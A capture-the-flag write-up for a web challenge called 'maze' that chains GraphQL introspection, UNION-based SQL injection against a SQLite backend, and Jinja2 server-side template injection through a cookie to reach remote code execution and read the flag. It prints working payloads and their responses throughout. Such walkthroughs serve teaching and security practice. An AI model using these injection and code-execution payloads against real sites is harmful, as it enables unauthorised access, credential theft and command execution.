




# maze
**Category: Web**

After connecting to the maze server we are greeted with a login page:


There didn't seem to be any easy way to get past this. A good thing to try here is to discover more endpoints. I thought the site might have a `robots.txt` file that might expose some more routes on the server. Accessing `/robots.txt` revealed the following config:
```
/sup3r_secr37_@p1
```

This endpoint turned out to be a GraphQL api with [introspection](https://graphql.org/learn/introspection/) enabled. This lets us view what kinds of queries are available.  

Let's build a quick query to see what kind of data we can find:

```graphql
query AllTraders {
  allTraders {
    edges {
      node {
        username
        coins {
          edges {
            node {
              body
              title
              password
            }
          }
        }
      }
    }
  }
}
```

```json
{
  "data": {
    "allTraders": {
      "edges": [
        {
          "node": {
            "username": "pop_eax",
            "coins": {
              "edges": [
                {
                  "node": {
                    "body": "XFT is the utility token that grants entry into the Offshift ecosystem",
                    "title": "XFT",
                    "password": "iigvj3xMVuSI9GzXhJJWNeI"
                  }
                }
              ]
            }
          }
        }
      ]
    }
  }
}
```

Great, a password! Trying out `XFT` / `iigvj3xMVuSI9GzXhJJWNeI` as the login works, and we get to a dashboard:



There is a link at the top which takes us to an admin login page. We'll need to find credentials for this.

Meanwhile, clicking the first image takes us to `/trade?coin=xft` and provides us with some info on the coin.

```http
GET /trade?coin=xft HTTP/1.1
```
```html
<div class="card-image">
    
    <span class="card-title">XFT</span>
    <a class="btn-floating halfway-fab waves-effect waves-light indigo darken-4" href="javascript:disabled()"><i class="medium material-icons">add</i></a>
</div>
<div class="card-content black">
    <p>An ERC-20 token, XFT is the utility token that grants entry into the Offshift ecosystem and gives users the ability to shift to and from zkAssets. It’s the public, tradeable side of the Offshift ecosystem, and its value is determined by the market.</p>
</div>
```

The backend is probably running a query like `SELECT * FROM table WHERE name = {user-input}`. We can test for SQL injection by doing the following:

```http
GET /trade?coin=xft'+OR+1=1--+ HTTP/1.1
```
And indeed, we get the same response back with information about the XFT coin. The next step is to work out how many columns are on the current table. (We'll need to know this to form queries to exfiltrate data.) We can do this by using the `ORDER BY` keyword with different values to see which one fails to return anything:

Payload | HTTP Response Code
---|---
`xft'+ORDER+BY+1--+` | 200
`xft'+ORDER+BY+2--+` | 200
`xft'+ORDER+BY+3--+` | 500

Since all values work until 3, we know the current table has 2 columns. 

Next, let's find out what other tables are available by doing a `UNION SELECT` and grabbing values from sqlite_master:

```http
GET /trade?coin=xft'+union+select+'1',+tbl_name+FROM+sqlite_master+WHERE+type='table'+and+tbl_name+NOT+like+'sqlite_%'--+ HTTP/1.1
```
```html
<div class="card-image">
  
  <span class="card-title">1</span>
  <a class="btn-floating halfway-fab waves-effect waves-light indigo darken-4" href="javascript:disabled()"><i class="medium material-icons">add</i></a>
</div>
<div class="card-content black">
  <p>admin</p>
</div>
```

Cool, `admin` is the first table to come back. Since we are looking for a way into the admin panel, this looks like a good place to investigate. Let's query for this table's structure:

```http
GET /trade?coin=xft'+union+select+'1',sql+FROM+sqlite_master+WHERE+type!='meta'+AND+sql+NOT+NULL+AND+name+='admin'--+ HTTP/1.1
```

```html
<div class="card-image">
  
  <span class="card-title">1</span>
  <a class="btn-floating halfway-fab waves-effect waves-light indigo darken-4" href="javascript:disabled()"><i class="medium material-icons">add</i></a>
</div>
<div class="card-content black">
  <p>CREATE TABLE admin(username TEXT NOT NULL, password TEXT NOT NULL)</p>
</div>
```

Now that we know the table structure, we can pull values from it:
```http
GET /trade?coin=xft'+union+select+username,password+FROM+admin--+ HTTP/1.1
```

```html
<div class="card-image">
  
  <span class="card-title">ADMIN</span>
  <a class="btn-floating halfway-fab waves-effect waves-light indigo darken-4" href="javascript:disabled()"><i class="medium material-icons">add</i></a>
</div>
<div class="card-content black">
  <p>p0To3zTQuvFDzjhO9</p>
</div>
```

Ok, now we have credentials, `admin` / `p0To3zTQuvFDzjhO9`. We can login to `/admin` and hopefully find a flag:



Hmm, no flag. We aren't out of the maze yet. 

I noticed that logging in as the admin set a cookie, `name: skid`. If we change the cookie value to a different name, that gets rendered in the chat interface instead. This made me think the page could be vulnerable to a server-side template injection attack. We can test this theory by providing a custom payload, `{{ 7*191 }}`, to see if it evaluates the expression:



Awesome. Using this payload from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#exploit-the-ssti-by-calling-subprocesspopen), we can achieve remote code execution:

```http
GET /admin HTTP/1.1
Cookie: session=<redacted>; name="{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}"
```
```html
<script>var name = "Dockerfile
__pycache__
app.py
coins.db
flag.txt
note
requirements.txt
run.sh
sandbox
static
templates
wsgi.py
";</script>
```

```http
GET /admin HTTP/1.1
Cookie: session=<redacted>; name="{{config.__class__.__init__.__globals__['os'].popen('cat flag.txt').read()}}"
```

```html
 <script>var name = "flag{u_35c@p3d_7h3_m@z3_5ucc3ssfu77y9933}
";</script>
```

Maze escaped! 😎
